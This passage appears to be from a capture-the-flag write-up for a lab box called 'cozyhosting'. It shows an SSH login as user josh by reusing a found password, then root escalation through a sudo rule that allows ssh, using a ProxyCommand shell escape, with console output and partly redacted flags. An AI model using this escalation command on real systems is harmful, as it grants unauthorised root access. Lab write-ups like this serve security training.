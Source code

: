 I know that there's one user on this system, likely to be the administrator:

```console
app@cozyhosting:/app$ ls /home    
ls /home
josh
```

So I'll check if Josh reused the same password for his shell login:

```console
$ ssh josh@$t
Warning: Permanently added '10.10.11.230' (ED25519) to the list of known hosts.
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

[...]

Last login: Tue Aug 29 09:03:34 2023 from 10.10.14.41
josh@cozyhosting:~$ 

josh@cozyhosting:~$ cat user.txt
dd510f[...]
```

## Privilege Escalation

Checking `sudo`:

```console
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Easy enough:

```console
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
## id
uid=0(root) gid=0(root) groups=0(root)
## cat /root/root.txt
8acbc8[...]
## 
```
